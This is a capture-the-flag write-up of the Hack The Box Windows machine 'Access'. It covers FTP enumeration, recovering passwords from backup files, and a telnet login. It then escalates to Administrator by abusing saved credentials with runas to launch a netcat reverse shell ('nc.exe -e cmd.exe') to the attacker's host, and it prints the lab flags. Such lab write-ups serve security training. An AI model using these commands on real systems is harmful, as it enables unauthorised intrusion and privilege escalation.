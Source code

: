 ```yaml
---
layout: post
title: Access
tags: [OSCP, Writeup, Windows, Password Reuse]
description: "Access write-up"
---
```


![Access logo](/assets/imgs/access/access.png)

### This is an easy windows box

## Tools used

------

- 7z
- copy
- ftp
- less
- nc
- nmap
- powerless
- runas
- smbserver
- strings
- telnet


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA access 10.10.10.98 -v

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- port 21 (FTP) - Anonymous login
- port  23 (TELNET)
- port 80 (HTTP) - IIS 7.5

Since I have anonymous access to the FTP, let's use them :

```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:liodeus): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
```

There is two directories :

- Backups
- Engineer

```
ftp> cd Backups
ftp> ls
08-23-18  09:16PM              5652480 backup.mdb
ftp> get backup.mdb
```

```
ftp> cd Engineer
ftp> ls
08-24-18  01:16AM                10870 Access Control.zip
ftp> get "Access Control.zip"
```

I downloaded two files from the two directories :

- backup.mdb
- Access Control.zip

I tried to unzip the file but it's protected by a password ! Maybe it's in the backup.mdb, to check for that I used the command strings and I got throught the output line by line looking for something that look like a password : 

```
strings backup.mdb | less
[...]
access4u@security
[...]
```

There was a lot of gibberish strings but one stands out : access4u@security, let's try it as password for the protected zip :

```
7z e Access\ Control.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
Compressed: 10870
```

Nice that was the password ! I now have a file name "Access Control.pst", looking on google how to open this file, I found this pst viewer who let you open it in the browser.

![PST online](/assets/imgs/access/pst_online.PNG)

I now have credentials :

```
login = security
password = 4Cc3ssC0ntr0ller
```

But where do I use them ? 

Go see the website :

![Website](/assets/imgs/access/webpage.PNG)

There is nothing here and what about the telnet port :

```
telnet 10.10.10.98                             
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login:
```

## Exploit

------

It's asking for a login, let's try them here :

```
telnet 10.10.10.98                             
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

I'm connected nice ! It's time to enumerate, first launch a smbserver for file transfert :

```
sudo smbserver.py -smb2support liodeus ./
```

Then I used Powerless.bat, because .exe wouldn't works :

```
\\10.10.14.4\liodeus\Powerless.bat
```

The interesting part is here :

```
-- Stored Passwords --

Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Nice the credentials of Administrator are stored, so I can use the command runas as him ! Let's get a reverse shell as Administrator, first upload nc on the box : 

```
copy \\10.10.14.4\liodeus\nc.exe .
```

Launch a nc listener :

```
nc -lvp 1234
```

Then run the command runas with the stored credentials :

```
runas /savecred /user:administrator "nc.exe -e cmd.exe 10.10.14.4 1234"
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.98: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.98] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

Voila, I now have the Administrator rights and can read the flags.

## Flags

------

### User.txt

```
C:\Users\security\Desktop>type user.txt
ff1f3b48913b213a31ff6756d2553d38
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
6e1586cc7ab230a8d297e8f933d904cf
```